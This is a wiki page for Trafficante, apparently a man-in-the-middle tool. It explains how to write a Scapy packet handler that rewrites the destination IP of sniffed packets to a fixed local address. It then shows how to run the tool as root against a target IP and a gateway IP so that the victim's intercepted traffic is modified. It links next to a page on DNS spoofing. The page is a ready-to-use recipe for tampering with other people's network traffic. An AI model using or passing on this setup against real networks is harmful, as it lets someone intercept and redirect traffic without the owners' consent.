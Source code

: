 # [wiki]::Custom handlers
<ol>
  <li>Write your packet handler function test.py<br>
  <code>from scapy.all import *
def my_handler(packet):
    old_dst = packet[IP].dst
    packet[IP].dst = "192.168.1.113"
    print("[HANDLER] modified from", old_dst, "to", packet[IP].dst)
    return packet</code></li>
  <li>Discover your target's ip and gateway ip: you can use <a href="https://github.com/n0nexist/subdisc">subdisc</a> for this task.</li>
  <li>Run: <code>sudo python3 main.py [target ip] [gateway ip] custom test.my_handler</code></li>
  <li>The sniffed packets will now be modified by the function my_handler from the file test.py</li>
</ol>

# Screenshots
![screenshot](https://user-images.githubusercontent.com/111337838/227001598-4e395cd5-3a4e-4fa1-bff7-23dda29ed799.png)

#
<h3>Next wiki page: <a href="https://github.com/n0nexist/Trafficante/blob/main/wiki/dns-spoofing.md">dns spoofing</a></h3>
